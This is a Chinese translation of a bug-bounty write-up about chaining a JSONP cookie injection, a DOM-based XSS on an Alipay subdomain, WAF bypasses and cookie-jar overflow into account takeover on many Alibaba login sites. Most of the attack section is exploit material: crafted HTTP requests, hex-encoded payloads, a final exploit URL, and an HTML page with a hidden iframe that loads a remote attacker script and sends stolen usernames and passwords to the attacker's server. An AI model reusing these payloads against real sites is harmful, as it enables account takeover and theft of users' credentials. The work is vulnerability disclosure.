

前言
这篇文章是关于一些客户端漏洞导致了阿里巴巴在多个网站上的账户被接管。
让我们开始
我将介绍一些必要条件，例如JSONP，一些浏览器处理cookies的行为等等
攻击
大多数阿里巴巴的网站加载并执行外部的javascript对象，javascript代码从名为UID的cookie中获取一个值。更多尝试表示，攻击者可以假冒受害者将UID的值更改为payload，从而导致帐户被接管。
漏洞发现的简要步骤如下：
- 找到一个url（ynuf.alipay.com），返回一个可以在很多阿里巴巴网站上执行的javascript代码。
- 实现了上面提到的URL，并返回了cookie在javascript代码中的值。
- 搜索* .alipay.com以查找XSS来控制cookie值。
- 在子域中找到一个潜在的基于DOM的XSS。
- 控制入口点，以绕过两次WAF。
- 使用一种不常见的技术来重写cookie的值。
- 在其他子域名网站上执行JavaScript代码，例如login.alibaba.com
- 写了一个漏洞利用代码来接管alibaba.com上的任何帐户
- 在最新版本的谷歌浏览器和Firefox浏览器都对其进行了测试。并在文末附上示范POC。
什么是JSONP？
JSONP是一种传输JSON数据的方法。
- 可以加载外部JavaScript对象
- 不使用XMLHttpRequest
- 不太安全
- 绕过浏览器中的同源策略
易受攻击的外部JavaScript对象
阿里巴巴的许多网站从以下网址加载外部JavaScript对象：
https://ynuf.alipay.com/uid
JavaScrip代码：
um.__idcb("5cb143654b94f4a5")
仔细观察可以发现5CB143654B94F4A5是从之前在ynuf.alipay.com域中设置的UID cookie中提取的。如果用户拥有cookie，服务器会获取它的值，否则，服务器会在响应中设置值。工作流程如图所示：
看下面三个请求，cookie中的payload会被服务器返回。
第一个请求：
GET /uid HTTP/1.1
Host: ynuf.alipay.com
User-Agent: curl/7.47.0
Accept: */*
响应:
HTTP/1.1 200 OK
Date: Wed, 17 Oct 2018 17:38:10 GMT
Content-Type: application/javascript
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
Vary: Accept-Encoding
ETag: d181bf00669d40c0
Set-Cookie: uid=d181bf00669d40c0; expires=Thu, 30 Jan 2031 08:00:00 GMT
Cache-Control: max-age=315360000, private
Server: Tengine/Aserver
Strict-Transport-Security: max-age=0
Timing-Allow-Origin: *
um.__idcb("26fadf90bac907a7")
第二个请求:
GET /uid HTTP/1.1
Host: ynuf.alipay.com
User-Agent: curl/7.47.0
Cookie: uid=d181bf00669d40c0
Accept: */*
响应:
HTTP/1.1 200 OK
Date: Sun, 11 Nov 2018 08:47:40 GMT
Content-Type: application/javascript
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
Vary: Accept-Encoding
ETag: test
Cache-Control: max-age=315360000, private
Server: Tengine/Aserver
Strict-Transport-Security: max-age=0
Timing-Allow-Origin: *
um.__idcb("d181bf00669d40c0")
第三个请求:
GET /uid HTTP/1.1
Host: ynuf.alipay.com
User-Agent: curl/7.47.0
Cookie: uid=")+alert("Injected
Accept: */*
响应:
HTTP/1.1 200 OK
Date: Sun, 11 Nov 2018 08:47:40 GMT
Content-Type: application/javascript
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
Vary: Accept-Encoding
ETag: test
Cache-Control: max-age=315360000, private
Server: Tengine/Aserver
Strict-Transport-Security: max-age=0
Timing-Allow-Origin: *
um.__idcb("")+alert("Injected")
由于没有对cookie值进行过滤，因此可以注入恶意代码。但什么样的漏洞才能导致控制cookie呢？
Cookie中的一些问题
根据RFC6265的规定，a.b.com可以设置一个属性为.b.com或a.b.com属性的cookie键值，而且访问b.com的时候很自然的.b.com的这个cookie也会被发送过去。
简单的来说就是：
非顶级域名，如二级域名或者三级域名，设置的cookie的domain只能为顶级域名或者二级域名或者三级域名本身，不能设置其他二级域名的cookie，否则cookie无法生成。
顶级域名只能设置domain为顶级域名，不能设置为二级域名或者三级域名，否则cookie无法生成。
二级域名能读取设置了domain为顶级域名或者自身的cookie，不能读取其他二级域名domain的cookie。所以要想cookie在多个二级域名中共享，需要设置domain为顶级域名，这样就可以在所有二级域名里面或者到这个cookie的值了。
顶级域名只能获取到domain设置为顶级域名的cookie，其他domain设置为二级域名的无法获取。
但是，老外画了一个这个图，吧啦吧啦不知道说了些啥（&……%￥%……&*
最后说可以这样设置cookie:
uid=")+alert("xss;domain=.alipay.com
在*.alipay.com中发现XSS
通过信息收集发现了doc.open.alipay.com。访问下面的URL将重定用户
https://doc.open.alipay.com/doc2/docSearch.htm?treeId=300&keyword=foo
仔细观察URL，发现javascript处理的是重定向而不是3xx头。查看代码还发现，可以通过向查询字符串添加articleID参数来停止重定向
触发XSS的第一个简单测试是用双引号来进行绕过
https://doc.open.alipay.com/doc2/docSearch.htm?treeId=300&keyword=foo">&articleId=bar
结果：

XSS过滤原理可能如下：
JavaScript的魔力
在开始之前，我注意到jQuery中的一个难问题。
难点描述
如果jquery通过.val（）从表单中获取HTML编码值，则返回对应的HTML解码值
"input" value="&"" />
jQuery：
$('#input').val() // return &"
回到查找漏洞的过程中，仔细查看，发现显示关键字的页面部分（在doc.open.alipay.com中）是由javascript完成的，花了很大的精力来查找构建该部分的javascript代码：
function h(b, e) {
url = d.one(".J_ajaxUrl").val();
var f = "keyword=" + (d.one(".J_Tagword") ? d.one(".J_Tagword").val() : d.one(".J_SearchKeyword").val()) + "&searchType=" + e;
url.indexOf("?") > 0 ? url += "&": url += "?",
c({
url: url + f + "¤t=" + b,
type: "post",
dataType: "json",
data: {},
success: function(b) {
if (200 == b.code) {
var c = b.data;
c.typeTotals;
if (c.count > 0) {
var g = [];
c.results.length > 0 ? (a.each(c.results,
function(a) {
"0" == e ? g.push("", '' + a.link + '" target="_blank">' + a.title + "", '' + a.content + "", '' + a.typeName + "", '更新时间: ' + a.gmtModifiedStr + "", "") : g.push("", '' + a.link + '" target="_blank">' + a.title + "", '' + a.content + "", '更新时间: ' + a.gmtModifiedStr + "", "")
}), d.all("ul", ".J_SearchList").html(g.join(""))) : d.all("ul", ".J_SearchList").html('该类目下没有符合条件的搜索结果'),
a.each(d.all(".J_typeTotal"),
function(a, b) {
var e = d.all(a);
e.parent();
0 == b ? e.text(c.count) : e.text(c[l[b] + "Count"])
}),
0 == e ? k.changeTotalPage(Math.ceil(c.count / c.size)) : k.changeTotalPage(Math.ceil(c[l[e] + "Count"] / c.size)),
k.setCurrentPage(c.current),
d.all(window).scrollTop(0)
} else d.all("li", ".J_typeList").show(),
d.all(".J_typeTotal").text(0),
k.changeTotalPage(1),
d.one("#platformId") && "1" == d.one("#platformId").val() ? d.all("ul", ".J_SearchList").html('没有符合条件的搜索结果') : d.all("ul", ".J_SearchList").html('没有符合条件的搜索结果' + f + '">搜索淘宝开放平台 --\x3e')
}
}
})
}
它是链接中最重要的javascript代码。服务器以正确编码输入j_searchkeywork中的参数关键字。但是，第3行d.one(".J_ajaxUrl").val()返回的HTML解码值被插入到页面中，目的是注入XSS payload，即使是以HTML编，它也不是一个常用的基于DOM的XSS攻击向量，但是：
构造一个简单的XSS payload。然而，服务器端的数据清洗很烦人。数据处理流程如下：
绕过服务器端清洗
构造XSS的第一步是添加一个新的HTML标记。不过，服务器已经对关键字参数传递的标记应用了某种规则。
fuzz测试：
结果显示其以下规则和条件：
1.删除属性并关闭有效HTML的标记，<a href>转换成<a></a>
2.无效的标记被递归完全删除或ah>变为无。
更多模糊测试：
预期值>和<将转换为>和<。但是，上一个请求/响应显示了其他内容，很快显示服务器正在应用自定义HTML编码器功能
1.如果输入未被识别为有效的html编码值 -> html_encode（value）
2.如果输入被识别为有效的HTML编码值 -> 返回值
这个小问题导致了一个很大的漏洞。其输入是 ：
uid=")+alert("xss;domain=.alipay.co
然后，输入XSS payload：
https://doc.open.alipay.com/doc2/docSearch.htm?treeId=300&articleId=bar&keyword=">%26gt;script%26lt;
结果却变成了：
绕过WAF
利用服务器端清洗功能的第二条规则（删除无效的HTML标记）可以成功绕过WAF。
数据流：
但实际上并不是这样，因为JavaScript发起了另一个Ajax请求。考虑到代码的第10行，前面提到的javascript库依赖于Ajax请求。请求是：
https://doc.open.alipay.com/doc2/search.htm?platformId&keyword=">&searchType=0¤t=1
当检测到有效载荷时，WAF阻止了第二个请求（毫无疑问，任何WAF都应该阻止"><script>）。错误的提示信息是根据规则库，只有200状态代码才能显示有效负载的响应显示（代码中的第11行）：
if (200 == b.code) {
因此，在两个请求中同时需要一个payload来绕过WAF。这里需要更多的fuzz测试。测试了几种载体。之后，发现了ontoggle这个payload：
<details/open/ontoggle=JS>
这绕过了AJAX请求中的WAF
所以最后的payload是：
https://doc.open.alipay.com/doc2/docSearch.htm?treeId=300&articleId=bar&keyword=">%26gt;details%2fopen%2fontoggle=%26lt;
这会导致发送第二个Ajax请求：
https://doc.open.alipay.com/doc2/search.htm?platformId&keyword="><details/open/ontoggle=>&searchType=0¤t=1
这两个请求都可以绕过WAF。答对了！
攻击场景：
- 构建恶意HTML网页
- 诱骗用户来访问我们制作的恶意网页
- 设置恶意cookie
- 在阿里巴巴的子域中注入了js代码
- 获取用户凭证
### 漏洞利用问题：
由于ynuf.alipay.com将域中的cookie设置为uid名称，因此无法从其他域覆盖该cookie。添加另一个与.alipay.com属性同名的cookie也不能解决这个问题，因为如果一个域存在两个名为xxx的cookie，则默认行为是浏览器将旧cookie放在HTTP请求的前面，这样服务器就可以获取第一个cookie ### 覆盖Cookie
测试显示浏览器在每个域中保存的cookie数量有限。例如，Google Chrome为一个域节省了不到150个cookie，而Firefox则节省了大约200个
因此，有效载荷很简单：for(var i=0;i<1000;i++){因此攻击向量
document.cookie=i+'=1;domain=.alipay.com'
}
document.cookie='uid=foo;domain=.alipay.com;path=/'uid通过添加许多垃圾cookie来消除旧cookie，添加uid由payload填充的新cookie。
payload 绕waf
由于WAF阻断了")+alert("xss，因此等效值被替换为绕过WAF的编码值：
document.cookie='uid=\x22\x29\x2b\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73;domain=.alipay.com;path=/'
组合攻击
最终的payload比预期的要简单：
https://doc.open.alipay.com/doc2/docSearch.htm?treeId=300&&articleId=bar&keyword=1%22%3E%26lt;details/open/ontoggle=%22for(var+i=0;i%3C1000;i%2b%2b){document.cookie=i%2b%27=1;domain=.alipay.com%27}document.cookie=%27uid=\x22\x29\x2b\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73;domain=.alipay.com;path=/%27%22%3E
访问上面的URL会在cookie中注入恶意JavaScript代码，该代码在阿里巴巴公司的多个域中执行，例如：
https://login.alibaba.com/
https://passport.alibaba.com/mini_login.htm?appName=hrjob
https://accounts.alibaba.com/register/cnfm_reg.htm
https://login.taobao.com/member/login.jhtml
https://reg.taobao.com/member/reg/fill_mobile.htm
https://login.aliexpress.com/
http://tp.amap.com/
http://id.amap.com/
https://passport.alibaba-inc.com/ssoLogin.htm?APP_NAME=iworkmanage
https://ipp.alibabagroup.com/login.htm
https://mp.dayu.com/
https://passport.umeng.com/login
https://passport.damai.cn/loginEn
显然，有更多的网站受到影响
最后一击
最终目标是在阿里巴巴的网站上实现账户接管。这种情况首先诱骗用户点击一个链接，然后如果用户下次登录，该帐户将被泄露。触发漏洞的链接源：
<html>
<center>
<img src='https://pbs.twimg.com/profile_images/701729713392320512/PaYM_TF4_400x400.jpg'><img>
<iframe src="https://doc.open.alipay.com/doc2/docSearch.htm?treeId=300&articleId=bar&keyword=1%22%3E%26lt;details/open/ontoggle=%22for(var+i=0;i%3C1000;i%2b%2b){document.cookie=i%2b%27=1;domain=.alipay.com%27}document.cookie=%27uid=\x22\x29\x2b\x28\x73\x63\x72\x69\x70\x74\x3d\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x72\x65\x61\x74\x65\x45\x6c\x65\x6d\x65\x6e\x74\x28\x27\x73\x63\x72\x69\x70\x74\x27\x29\x2c\x73\x63\x72\x69\x70\x74\x2e\x73\x72\x63\x3d\x27\x68\x74\x74\x70\x73\x3a\x2f\x2f\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x2f\x78\x70\x6c\x2e\x6a\x73\x27\x2c\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x62\x6f\x64\x79\x2e\x61\x70\x70\x65\x6e\x64\x43\x68\x69\x6c\x64\x28\x73\x63\x72\x69\x70\x74\x29\x29\x2b\x28\x22;domain=.alipay.com;path=/%27%22%3E" style="width:0;height:0;border:0; border:none;"></iframe>
</html>
iframe-src使用以下paylaod而不是alert来注入恶意的javascript文件并动态加载：
"\")+(script=document.createElement('script'),script.src='https://myserver/xpl.js',document.body.appendChild(script))+(\""
显然，payload位于https://myserver/xpl.js中：
最终，当用户访问攻击者的链接并登录到https://login.alibaba.com/后，凭证将被窃取并保存在https://myserver/xxx/alibaba/data.txt中：
{"u":"alibaba@alibaba.com","p":"password"}
帐户接管完成
本文引用了
1.http://cache.baiducontent.com/c?m=9d78d513d99907e91aac837f7d01d6150e54f1743ca6c7140f91d60d84652b564711f4ba57734c548d98292616ae394bea87217347527de88cc8f91a8eeacb3f2ef8796f2d40914163910eafba4527c4229b51edac0ee6cae732e4b9d3a385120c9447423adeffd11c46568b78f1672cfee3dc0d025f67ebb1603ba20c363e9f5411eb18e4b0613f5edfad8000518137d3631495a43eb43d05b564fe59447a&p=8f769a4789d21dff57ec97354e52&newp=9c7a891accaf12a05abd9b7f0e5d92695912c10e36d2c44324b9d71fd325001c1b69e3b823281603d4c6786c15e9241dbdb239256b55&user=baidu&fm=sc&query=https%3A//www%2Ecnblogs%2Ecom/backlion/p/10709961%2Ehtml&qid=ec9147550000b03c&p1=1
2.https://www.cnblogs.com/xsserhaha/p/10714611.html
3.https://medium.com/@y.shahinzadeh/chaining-multiple-vulnerabilities-waf-bypass-to-account-takeover-in-almost-all-alibabas-websites-f8643eaa2855